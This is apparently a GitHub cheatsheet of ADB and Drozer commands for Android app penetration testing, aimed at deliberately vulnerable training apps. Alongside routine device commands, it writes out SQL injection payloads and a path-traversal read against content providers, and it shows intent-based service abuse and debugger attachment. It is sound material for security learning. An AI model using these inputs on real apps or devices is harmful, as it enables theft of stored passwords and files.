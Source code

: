 # adb-drozer-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs & SPLIT APKs
```
adb install <apkname>
adb install-multiple <splitapkname1> <splitapkname2> <splitapkname3> <splitapkname4>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

Forwarding Ports
```
adb forward tcp:hostport tcp:androidport
adb reverse tcp:androidport tcp:hostport
```

Access settings of emulator & configuring them with namespaces(These are like environment variable to access and configure settings on android from shell)
```
adb shell settings   #Help menu or list all available options
```
```
adb shell settings list global     #lists all global namespaces. otherthan global we have system & secure
```
```
adb shell settings put global http_proxy 127.0.0.1:8080    #configure http proxy with http_proxy namespace
```
```
adb shell settings get global http_proxy       #Get a namespace configuration:  scope set to global & key set to http_proxy
```
```
adb shell settings delete global http_proxy      #Deleting the namespace configuration:  scope set to global & key set to http_proxy
```


## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
**DROZER Intent options for Activity, Broadcast, Service**
```
-a is used to specify action example: -a android.intent.action.VIEW
--extra is to specify strings example: --extra key value
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii"
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
```

DROZER Activities
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```
DROZER broadcasts
```
dz> run app.broadcast.info -a jakhar.aseem.diva  #listing broadcast
dz> run app.broadcast.start --component jakhar.aseem.diva jakhar.aseem.diva.BroadCast  #starting Broadcast
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```
DROZER services
```
dz> run app.service.info -a jakhar.aseem.diva  #listing services
dz> run app.service.start --component jakhar.aseem.diva jakhar.aseem.diva.TestService  #starting Services
```


## Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER contentproviders
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

#### Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

#### DROZER ATTACK SURFACE SCAN & MANIFEST READ
```
dz> run app.package.attacksurface jakhar.aseem.diva    #attack surface listing
dz> run app.package.manifest jakhar.aseem.diva     #manifest file listing
```

## Debuggable app connection</br>
Open debuggable app then run below command
```
adb jdwp   #it shows the port to socket of dubuggale app
```
Forward the host tcpport to socketport of debuggable android app
```
adb forward tcp:7777 jdwp:12167
```
Attach jdb to it(jdb by default comes with platform-packages)
```
jdb -attach localhost:7777
```
